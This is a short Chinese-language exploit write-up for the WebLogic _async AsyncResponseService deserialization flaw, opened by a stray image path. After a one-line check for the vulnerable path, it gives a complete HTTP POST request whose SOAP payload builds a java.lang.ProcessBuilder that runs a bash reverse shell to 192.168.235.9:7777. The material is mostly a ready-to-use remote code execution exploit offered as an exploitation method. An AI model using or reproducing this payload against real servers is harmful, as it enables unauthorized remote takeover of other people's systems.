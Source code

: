 访问 /_async/AsyncResponseService路径，出现下面这个页面就说明存在漏洞  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEnDuDLyLq3Rt1T2akUa1mc0M4nF5ZIicOfj29cagyd4TrkzMiaMnrs6Gw/640?wx_fmt=png&from=appmsg "")  
  
利用方式1 反弹Shell  
  
  
HTTP请求报文如下  
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.111.128:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 789
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.235.9/7777 0&gt;&amp;1
</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>

```  
  